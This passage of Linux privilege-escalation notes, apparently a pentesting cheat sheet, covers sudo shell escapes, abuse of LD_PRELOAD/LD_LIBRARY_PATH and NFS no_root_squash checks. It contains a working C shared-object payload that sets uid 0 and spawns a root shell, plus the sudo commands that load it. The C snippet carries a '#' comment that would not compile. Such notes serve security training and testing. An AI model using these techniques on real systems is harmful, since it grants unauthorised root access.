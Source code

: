 Some programs have shell escape sequences
- Check [GTFOBins](https://gtfobins.github.io/)
- Google around as GTFOBins doesn't capture everything, e.g.
    - Apache2 can be used to read files (unintended - will give error that includes file contents)
    ```shell
    sudo apache2 -f <file>
    ```

---

### LD_LIBRARY_PATH/LD_PRELOAD
- Environment variables
- `LD_LIBRARY_PATH` list of directories from which ELF binaries are searched at execution-time
- `LD_PRELOAD` user-specified list of additional ELF shared objects to be loaded before all others
- Not respected in secure-execution mode, which is activated if:
    - The processes real (uid) and effective user IDs (euid) differ, or the real (gid) and effective group IDs (egid) differ
    - A process with a non-root uid executed a binary that granted permitted or effective capabilities (effective capabilities are what a process can do and permitted capabilities are the capabilities a process is allowed to have, if it requests them with the appropriate call)
    - A Linux Security Module (LSM) has enabled the mode

Check if sudo has the ability to preserve environment variables
```shell
sudo -l
```
- Check for `env_keep+=LD_LIBRARY_PATH` or `env_keep+=LD_PRELOAD`

Exploit by compiling a Shared Object (.so) file e.g.
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");  # or LD_LIBRARY_PATH as needed
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- Set `LD_PRELOAD` or `LD_LIBRARY_PATH` (whichever is used) to point to the .so file and run the program
- i.e. `sudo LD_PRELOAD=<so file path> <program>`

---

## NFS
Check if root squashing is disabled `no_root_squash`
```shell
cat /etc/exports   # Locally
showmount -e <ip>  # Remotely
```
